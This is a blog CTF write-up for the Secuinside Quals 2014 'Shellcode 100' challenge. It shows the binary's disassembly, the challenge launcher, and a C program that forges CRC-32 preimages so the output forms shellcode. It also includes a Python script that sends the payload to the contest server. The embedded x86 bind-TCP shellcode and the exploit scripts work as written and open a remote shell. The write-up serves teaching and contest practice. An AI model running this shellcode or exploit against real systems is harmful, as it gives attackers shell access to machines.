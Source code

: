 ```yaml
---
layout: post
title: "Secuinside Quals 2014: Shellcode 100"
date: 2014-06-02 04:57:01 +0000
permalink: /blog/secuinside-quals-2014-shellcode-100/
category: Security
tags: CTF,Secuinside,Security
---
```

This is a level that, at first, seemed like it would be extremely simple, but then turned out to be far more complicated than expected.  We were provided a zip file containing a python script and an elf binary.

Disassembling the binary reveals a very basic program:

    / (fcn) sym.main 165
    |                0x0804847d    55           push ebp
    |                0x0804847e    89e5         mov ebp, esp
    |                0x08048480    83e4f0       and esp, 0xfffffff0
    |                0x08048483    83ec30       sub esp, 0x30
    |                0x08048486    8b450c       mov eax, [ebp+0xc]
    |                0x08048489    83c004       add eax, 0x4
    |                0x0804848c    8b00         mov eax, [eax]
    |                0x0804848e    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048376 (fcn.08048376)
    |                ; CODE (CALL) XREF from 0x08048370 (fcn.08048366)
    |                0x08048491    e8dafeffff   call 0x108048370 ; (sym.imp.atoi)
    |                   sym.imp.atoi(unk)
    |                0x08048496    89442428     mov [esp+0x28], eax
    |                0x0804849a    c7442424000. mov dword [esp+0x24], 0x0
    |                0x080484a2    c7442408040. mov dword [esp+0x8], 0x4
    |                0x080484aa    8d442424     lea eax, [esp+0x24]
    |                0x080484ae    89442404     mov [esp+0x4], eax
    |                0x080484b2    8b442428     mov eax, [esp+0x28]
    |                0x080484b6    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048330 (fcn.0804832c)
    |                0x080484b9    e872feffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x080484be    8b442424     mov eax, [esp+0x24]
    |                0x080484c2    c7442414000. mov dword [esp+0x14], 0x0
    |                0x080484ca    c7442410fff. mov dword [esp+0x10], 0xffffffff
    |                0x080484d2    c744240c220. mov dword [esp+0xc], 0x22
    |                0x080484da    c7442408070. mov dword [esp+0x8], 0x7
    |                0x080484e2    89442404     mov [esp+0x4], eax
    |                0x080484e6    c7042400000. mov dword [esp], 0x0
    |                ; CODE (CALL) XREF from 0x08048350 (fcn.08048346)
    |                0x080484ed    e85efeffff   call 0x108048350 ; (sym.imp.mmap)
    |                   sym.imp.mmap()
    |                0x080484f2    8944242c     mov [esp+0x2c], eax
    |                0x080484f6    8b442424     mov eax, [esp+0x24]
    |                0x080484fa    89442408     mov [esp+0x8], eax
    |                0x080484fe    8b44242c     mov eax, [esp+0x2c]
    |                0x08048502    89442404     mov [esp+0x4], eax
    |                0x08048506    8b442428     mov eax, [esp+0x28]
    |                0x0804850a    890424       mov [esp], eax
    |                0x0804850d    e81efeffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x08048512    31c0         xor eax, eax
    |                0x08048514    31c9         xor ecx, ecx
    |                0x08048516    31d2         xor edx, edx
    |                0x08048518    31db         xor ebx, ebx
    |                0x0804851a    31f6         xor esi, esi
    |                0x0804851c    31ff         xor edi, edi
    \                0x0804851e    ff64242c     jmp dword [esp+0x2c]

It takes a single argument, an integer, which it uses as a file descriptor for input.  It then reads 4 bytes from the file descriptor, mmap's an anonymous block of memory of that size with RWX permissions, then reads that many bytes from the file descriptor into the mapped region, and finally jumps to the map region.  So, in summary, read shellcode length, read shellcode, then jump to shellcode.

So, let's look at the python script responsible for launching the program and reading the input.

    #!/usr/bin/python
    import os, signal, struct, binascii
    from sys import stdin, stdout
    
    UI = lambda a : struct.unpack('I', a)[0]
    PI = lambda a : struct.pack('I', a)
    
    def crc32(data, salt) :
        return PI(binascii.crc32(salt + data) & 0xffffffff)
    
    def main() :
        signal.alarm(25)
    
        salt = os.urandom(10)
        print 'salt:', salt.encode('hex')
        stdout.flush()
    
        n = UI(stdin.read(4))
        data = ''.join(crc32(stdin.read(UI(stdin.read(4))), salt) for _ in xrange(n))
    
        fi, fo = os.pipe()
        if not os.fork() :
            os.execl('/home/sc/thisisnotbad', 'thisisnotbad', '%d' % fi)
        else :
            os.write(fo, PI(len(data)))
            os.write(fo, data)
    
    if __name__ == '__main__' :
        main()

As you can tell, it provides a 10 byte salt, then reads in 4 bytes (`n`), then finally reads `n` blocks prefixed by a 4-byte length.  Next, for each block, it computes the crc32 of the block with the salt prepended.  Finally, the crc32s are concatenated as the shellcode to be executed.

So, to get useful shellcode, we have to mount a preimage attack on CRC-32.  Fortunately, CRC-32 is not a cryptographically secure hash, and [Julien Tinnes has done the heavy lifting for us](https://code.google.com/p/tweakcrc/).  So, we can take our shellcode as the desired CRC32s and compute the preimage of salt+preimage vector (4 bytes), then break the result into 4 byte chunks and send them along with appropriate lengths.

I wrote a little C program to use the calcvect.c from tweakcrc to compute the preimages given the salt, then used python for all the socket communications. (Because why do sockets in C when you can avoid it?)

    #!c
    #include "crc32.h"
    #include <string.h>
    #include <stdio.h>
    #include <arpa/inet.h>
    
    /*
    const char *shellcode = "\x31\xc0\x50\x68"
                            "\x2f\x2f\x73\x68"
                            "\x68\x2f\x62\x69"
                            "\x6e\x89\xe3\x50"
                            "\x53\x89\xe1\xb0"
                            "\x0b\xcd\x80\x90";
    */
    
    unsigned char shellcode[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a"
    "\x02\x89\xe1\xb0\x66\xcd\x80\x5b"
    "\x5e\x52\x68\x02\x00\x16\x9d\x6a"
    "\x10\x51\x50\x89\xe1\x6a\x66\x58"
    "\xcd\x80\x89\x41\x04\xb3\x04\xb0"
    "\x66\xcd\x80\x43\xb0\x66\xcd\x80"
    "\x93\x59\x6a\x3f\x58\xcd\x80\x49"
    "\x79\xf8\x68\x2f\x2f\x73\x68\x68"
    "\x2f\x62\x69\x6e\x89\xe3\x50\x53"
    "\x89\xe1\xb0\x0b\xcd\x80\x90\x90";
    
    
    #define SC_LEN 80
    #define CHUNK_SIZE 4
    
    char shellcode_out[SC_LEN];
    
    char tmpbuf[14];
    
    unsigned int    tweakcrc(void *map, int length, unsigned int target, unsigned int offset);
    
    
    void decode_hex(char *dst, const char *src) {
      int i;
      for (i=0; i<strlen(src)/2; i ++)
        sscanf(&(src[i*2]), "%2hhx", &dst[i]);
    }
    
    
    int main(int argc, char **argv) {
      int i;
      int target;
      decode_hex(tmpbuf, argv[1]);
      gen_table();
    
      for (i=0; i<(SC_LEN/CHUNK_SIZE); i++){
        *(int *)(tmpbuf + 10) = 0;
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        target = *((int *)&shellcode[i*CHUNK_SIZE]);
        //target = htonl(target);
        //fprintf(stderr, "Target: %08x\n", target);
        tweakcrc(tmpbuf, 14, target, 10);
        
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        memcpy(&shellcode_out[i*CHUNK_SIZE], tmpbuf+10, 4);
      }
    
      for (i=0; i<SC_LEN; i++)
        printf("%02hhx", shellcode_out[i]);
      printf("\n");
      return 0;
    }

You might notice a commented out shellcode.  At first, I just tried a basic x86 shell exec, but stdin/stdout do not seem to connect through to the shellcode.  I didn't dig into why, just replaced my shellcode with `linux/x86/shell_bind_tcp` from Metasploit.  

To chunk and send my payload:

    #!python
    import socket
    import subprocess
    import struct
    import binascii
    
    
    def crc32(data, salt):
      #print (salt+data).encode('hex')
      v = struct.pack('I', binascii.crc32(salt + data) & 0xffffffff)
      #print v.encode('hex')
      return v
    
    REMOTE = ('54.178.232.195', 5757)
    #REMOTE = ('localhost', 5555)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(REMOTE)
    print 'Connected.'
    salt = s.recv(1024).strip().split(':')[1].strip()
    print 'Salt: %s' % salt
    
    shellcode = subprocess.check_output(
        ('./shellcode', salt)).strip()
    print 'Shellcode: %s' % shellcode
    shellcode = shellcode.decode('hex')
    
    def send(what):
      print what.encode('hex')
      return s.send(what)
    
    def chunks(sc):
      return [sc[x:x+4] for x in xrange(0, len(sc), 4)]
    
    nc = len(shellcode)/4
    
    shellcode = ''.join('\x04\x00\x00\x00' + c for c in chunks(shellcode))
    
    l = send(struct.pack('I', nc) + shellcode)
    print 'Shellcode %d done.' % l

You might notice both programs have a lot of debugging print statements.  Getting the endianness just right, tweaking the payload chunking, etc., consumed far more time than figuring out what the problem was.
